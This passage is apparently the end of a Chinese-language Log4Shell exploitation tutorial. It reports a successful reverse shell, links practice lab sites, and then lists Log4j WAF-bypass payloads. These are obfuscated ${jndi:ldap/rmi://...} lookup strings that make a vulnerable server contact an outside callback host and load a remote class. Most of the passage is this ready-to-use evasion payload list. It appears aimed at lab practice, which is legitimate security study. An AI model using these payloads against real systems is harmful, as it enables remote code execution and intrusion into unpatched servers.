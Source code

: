 服务器收到执行payload记录。

![image-20211214130301563]($imgs/image-20211214130301563.png)

反弹shell成功。

![image-20211214130325190]($imgs/image-20211214130325190.png)

## 其他测试靶场

[掌控安全](http://d63bb2586.lab.aqlab.cn/)

[首页 - vulfocus](http://vulfocus.fofa.so/#/dashboard)

[log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)



## Bypass WAF Payloads

参考链接：

[Log4j Bypass WAF Payloads](https://mp.weixin.qq.com/s/H1gH5ZtIAVpLPgmmUfJnaA)



```
${jndi:ldap://127.0.0.1:1389/ badClassName} 

${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${${::-j}ndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${jndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}

${${lower:jndi}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${${lower:${lower:jndi}}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${upper:jndi}:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${${upper:j}${upper:n}${lower:d}i:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

```